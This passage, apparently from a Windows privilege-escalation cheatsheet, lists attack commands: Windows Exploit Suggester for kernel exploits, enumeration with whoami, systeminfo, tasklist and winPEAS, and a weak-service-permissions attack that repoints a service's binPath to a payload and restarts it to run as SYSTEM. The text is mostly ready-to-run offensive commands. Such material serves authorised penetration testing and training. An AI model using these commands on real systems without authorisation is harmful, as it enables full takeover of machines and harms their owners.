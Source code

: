 
#### **6. Kernel Exploits**

**Last resort**, as they can be unstable.

* **Windows Exploit Suggester:**
    ```bash
    # On target, get system info
    systeminfo > systeminfo.txt
    # On attacker machine, run the tool
    python2 windows-exploit-suggester.py --database <date>-mssb.xls --systeminfo systeminfo.txt
    ```
***

### <a name="11-exploits-cheatsheet"></a>11 Exploits Cheatsheet (with Exploitation Commands)

This cheatsheet provides the specific "Find" and "Exploit" commands for the 11 Windows privilege escalation techniques.

#### **1. Enumeration / Basic Commands**
The "exploit" is the act of gathering the data.
* **Exploit Commands:**
    ```powershell
    rem -- Check user, groups, and privileges
    whoami /all
    rem -- Get OS and patch info for kernel exploits
    systeminfo
    rem -- Find interesting running services
    tasklist /SVC
    rem -- Automatically find low-hanging fruit
    .\winPEASx64.exe -quiet
    ```

---

#### **2. Weak Service Permissions**
Hijack a service your user has permission to modify.
* **Find:**
    ```powershell
    accesschk.exe /accepteula -uwcqv "Users" *
    ```
* **Exploit Commands:**
    ```powershell
    rem -- Reconfigure the service's binary to your payload
    sc config <VulnSvc> binPath= "C:\tmp\payload.exe"
    rem -- Restart the service to execute the payload as SYSTEM
    sc stop <VulnSvc>
    sc start <VulnSvc>
    ```

---